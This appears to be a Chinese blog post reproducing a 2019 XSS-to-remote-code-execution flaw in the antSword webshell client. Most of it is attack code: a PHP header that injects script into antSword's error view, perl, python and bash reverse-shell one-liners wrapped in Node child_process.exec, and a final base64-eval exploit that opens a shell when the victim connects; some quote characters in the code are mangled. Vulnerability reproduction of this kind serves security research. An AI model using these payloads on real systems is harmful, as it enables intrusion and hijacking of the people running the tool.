 ```yaml
---
title: RCE Vulnerability in antSword
tags:
  - X(R)S(C)S(E)
categories:
  - 漏洞复现
copyright: true
abbrlink: 4e91690d
date: 2019-04-14 12:42:55
---
```


![](https://ae01.alicdn.com/kf/HTB18FOoaBGw3KVjSZFwq6zQ2FXa1.jpg)
<!--more-->

前几天蚁剑暴X(R)S(C)S(E)，所以复现看看

```php
<?php
header('HTTP/1.1 500 <img src=# onerror=alert(/AntSword-XSS/)>');
?>
```

![](https://ae01.alicdn.com/kf/HTB15QSiaA9E3KVjSZFG76319XXaR.png)

**弹shell**

写入自己喜欢的弹shell方式到，`exec()`内，然后进行base64加密

perl:

```
require('child_process').exec('perl -e 'use Socket;$i="127.0.0.1";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'',(error, stdout, stderr)=>{
    alert(`stdout: ${stdout}`);
  });
```

python:

```bash
require('child_process').exec('python -c \’import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash”,”-i”]);\’’,(error, stdout, stderr)=>{
    alert(`stdout: ${stdout}`);
  });
```

bash:

```bash
require('child_process').exec('bash -i >& /dev/tcp/127.0.0.1/4444 0>&1’,(error, stdout, stderr)=>{
    alert(`stdout: ${stdout}`);
  });
```


**最终的exp**

```php
<?php
header("HTTP/1.1 406 Not <img src=# onerror='eval(new Buffer(`base64编码内容`,`base64`).toString())'>");
?>
```

nc监听4444，蚁剑添加webshell，双击打开后，成功弹回bash

![0x02.png](https://ae01.alicdn.com/kf/HTB1VN9jaBOD3KVjSZFF763n9pXaL.png)

**PS：**
这里有个坑，就是，用py、bash、nc之类的弹不回shell，用perl就行。不知道怎么回事。后面再研究院研究